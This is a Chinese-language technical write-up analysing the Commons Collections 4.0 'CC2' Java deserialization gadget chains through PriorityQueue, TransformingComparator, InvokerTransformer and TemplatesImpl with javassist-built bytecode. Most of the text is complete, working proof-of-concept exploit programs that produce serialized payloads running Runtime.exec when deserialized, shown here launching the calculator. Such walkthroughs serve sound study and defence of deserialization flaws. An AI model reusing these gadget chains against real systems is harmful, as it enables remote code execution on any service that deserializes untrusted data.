# 环境搭建

- jdk 1.7，jdk1.8也测试成功。
- Commons Collections 4.0

- javassit

maven：

```
    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.25.0-GA</version>
        </dependency>
    </dependencies>
```

# 利用链1分析

CC2的后半段命令执行的链子和CC1是一样的,都是用`InvokerTransformer`类通过反射调用去命令执行

不过前面触发transform方法的点已经变了,从ysoserial的payload来正向分析

```
/*
   Gadget chain:
      ObjectInputStream.readObject()
         PriorityQueue.readObject()
            ...
               TransformingComparator.compare()
                  InvokerTransformer.transform()
                     Method.invoke()
                        Runtime.exec()
 */
```

入口点在PriorityQueue类重写的readObject方法

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

在这个方法结尾调用了heapify方法

```
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```

这里有一个变量,不过有一个条件`(size>>>1)-1>=0`，因为`size>>>1`相当于size除以2,所以size应该大于等于2才行

在看循环语句调用了siftDown方法,传入参数`i`和`queue[i]`,在`readObject`中看到queue[i]是通过`s.readObject`读出来的,那就需要writeObject写进去

看看writeObject方法

```
private void writeObject(java.io.ObjectOutputStream s)
    throws java.io.IOException{
    // Write out element count, and any hidden stuff
    s.defaultWriteObject();

    // Write out array length, for compatibility with 1.5 version
    s.writeInt(Math.max(2, size + 1));

    // Write out all elements in the "proper order".
    for (int i = 0; i < size; i++)
        s.writeObject(queue[i]);
}
```

在最后通过`s.writeObject(queue[i])`依次对`queue[i]`进行序列化操作,所以我们可以通过反射对他进行控制,在这个poc里面可以通过一个add方法对其赋值,反射在第二条链子也会用到

回到heapify，跟进siftDown方法

```
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

判断`comparator`属性是否为空,不为空则调用`siftDownUsingComparator`

跟进`siftDownUsingComparator`



重点在`comparator.compare(x,(E) c)`

comparator是一个接口,到他的实现类里面去找重写的compare方法,`org.apache.commons.collections4.comparators.TransformingComparator`实现了`Comparator`接口，重写了`compare`方法



这里调用了transform方法,分析了CC1,这里就想到了CC1后半段`InvokerTransformer`类的transform方法可以去执行命令

现在的问题是前面说size的值要大于等于2,但是默认值是0



所以我们需要去向`PriorityQueue`类添加两个元素,直接用add添加两个元素

所以大致的POC如下

```
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.util.PriorityQueue;

public class CC2Test {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(transformers);
        TransformingComparator Tcomparator = new TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(1,Tcomparator);

        queue.add(1);
        queue.add(2);


        try{
            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("cc2.txt"));
            outputStream.writeObject(queue);
            outputStream.close();
            System.out.println(barr.toString());

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("cc2.txt"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

执行了命令,但是没有生成对应的文件

打断点发现执行完add后就弹出来了计算机,并没有继续往下面执行了

跟进add

```
public boolean add(E e) {
    return offer(e);
}
```

跟进offer

```
public boolean offer(E e) {
    if (e == null)
        throw new NullPointerException();
    modCount++;
    int i = size;
    if (i >= queue.length)
        grow(i + 1);
    size = i + 1;
    if (i == 0)
        queue[0] = e;
    else
        siftUp(i, e);
    return true;
}
```

这里的size会增加1,因为`size>=2`,所以`i`不等于0,跟进siftup

```
private void siftUp(int k, E x) {
    if (comparator != null)
        siftUpUsingComparator(k, x);
    else
        siftUpComparable(k, x);
}
```

这里因为我们传进来了comparator参数，所以跟进`siftUpUsingComparator`



注意到这里有调用了一次compare方法



然后在这里调用两个transform方法,会执行两次命令,然后return一个0,程序就会结束,并没有添加到queue中去

再来看siftup方法,如果comparator为空的话走else分支

```
private void siftUp(int k, E x) {
    if (comparator != null)
        siftUpUsingComparator(k, x);
    else
        siftUpComparable(k, x);
}
```

跟进siftUpComparable

```
private void siftUpComparable(int k, E x) {
    Comparable<? super E> key = (Comparable<? super E>) x;
    while (k > 0) {
        int parent = (k - 1) >>> 1;
        Object e = queue[parent];
        if (key.compareTo((E) e) >= 0)
            break;
        queue[k] = e;
        k = parent;
    }
    queue[k] = key;
}
```

这里会把值添加到queue中去,就实现了对queue数组的控制

然后在实例化PriorityQueue类的时候,调用这个构造函数



```
PriorityQueue queue = new PriorityQueue(1);
```

这样comparator就为空了

不过我们还是要设置comparator的值为TransformingComparator对象,不然反序列化的时候调用compare方法的时候无法触发TransformingComparator里面的compare方法

所以这里先不设置comparator的值,在添加元素后size>=2了，再通过反射去设置comparator的值

```
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);
```

## 漏洞复现

经过上面的分析,最后完整的POC如下

```
package CC2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("cc2.bin"));
        os.writeObject(queue);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("cc2.bin"));
        fos.readObject();
    }
}

```

# 利用链2分析

根据poc来分析

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Test2 {

    public static void main(String[] args) throws Exception{

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator Tcomparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        //cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "DawnT0wn");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);


        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2Test2.bin"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2Test2.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```


还是从PriorityQueue类重写的readObject看起

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

结尾调用heapify



heapify还是和上面一样调用`siftDown`,传入`i`和`queue[i]`,因为这里还是从readObject里面读出来的,在writeObject的时候已经写入了,方法和上面一样,`size>=2`,这里就不再讲了

跟进siftDown,这里的k为0,x就是`queue[0]`,即是templates变量也就是TemplatesImpl对象

```
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```

这前面的调用链和上面差别不大,继续跟进siftDownUsingComparator



跟进compare,实现类和刚才一样是TransformingComparator类



`obj1`是`TemplatesImpl`对象,`transformer`是`InvokerTransformer`对象,调用`InvokerTransformer`的`transform`方法

因为poc里面是序列化InvokerTransformer类的时候

```
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
```

调用了这个私有构造方法,传入了应该newTransformer参数,



跟进transform方法



这里通过反射调用了`TemplatesImpl`对象的newTransformer方法



跟进`getTransletInstance`方法



然后再看poc里面的代码

```
setFieldValue(templates, "_name", "DawnT0wn");
setFieldValue(templates, "_class", null);
```

设置`name`参数不为空,设置`_class`参数为空进入第二个if

跟进defineTransletClasses

```
private void defineTransletClasses()
    throws TransformerConfigurationException {

    if (_bytecodes == null) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
        throw new TransformerConfigurationException(err.toString());
    }

    TransletClassLoader loader = (TransletClassLoader)
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                return new TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
            }
        });

    try {
        final int classCount = _bytecodes.length;
        _class = new Class[classCount];

        if (classCount > 1) {
            _auxClasses = new Hashtable();
        }

        for (int i = 0; i < classCount; i++) {
            _class[i] = loader.defineClass(_bytecodes[i]);
            final Class superClass = _class[i].getSuperclass();

            // Check if this is the main class
            if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                _transletIndex = i;
            }
            else {
                _auxClasses.put(_class[i].getName(), _class[i]);
            }
        }

        if (_transletIndex < 0) {
            ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
    catch (ClassFormatError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
    catch (LinkageError e) {
        ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
        throw new TransformerConfigurationException(err.toString());
    }
}
```

首先要保证`_bytecodes`不为空,不然会直接抛出一个异常



`_bytecodes`是一个字节数组,先继续往下


这里会将字节数组还原成class对象

所以对应了exp里面的

```
ClassPool pool = ClassPool.getDefault();
//pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
//String randomClassName = "EvilCat" + System.nanoTime();
//cc.setName(randomClassName);
//cc.writeFile();
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
```

用javassits创建一个新的类,然后插入一个命令执行的代码,最后转换成对象数组

不过注意在这还要判断它的父类是不是AbstractTranslet





然后进入if赋值最后相当于`_class[0]=我们想要恶意加载的类`

最后回到`getTransletInstance`方法



执行`AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();`对我们恶意加载的类实例化,执行static块的代码

恶意加载的类长这样



## 漏洞复现

exp

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload2 {
    public static void main(String[] args) throws Exception{

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator comparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] classBytes = STU.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates,"_name","DawnT0wn");
        setFieldValue(templates,"_class",null);
        setFieldValue(templates,"_bytecodes",targetByteCodes);

        Object queue_array = new Object[]{templates,1};
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        field.setAccessible(true);
        field.set(queue,queue_array);

        Field field1 = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        field1.setAccessible(true);
        field1.set(queue,2);

        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("CC2Test2.txt"));
        os.writeObject(queue);
        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("CC2Test2.txt"));
        fos.readObject();
    }
    public static void setFieldValue(Object obj,String filename,Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(filename);
        field.setAccessible(true);
        field.set(obj,value);
    }
}
```




参考文章

https://xz.aliyun.com/t/10387#toc-3

https://blog.csdn.net/qq_41918771/article/details/117194343
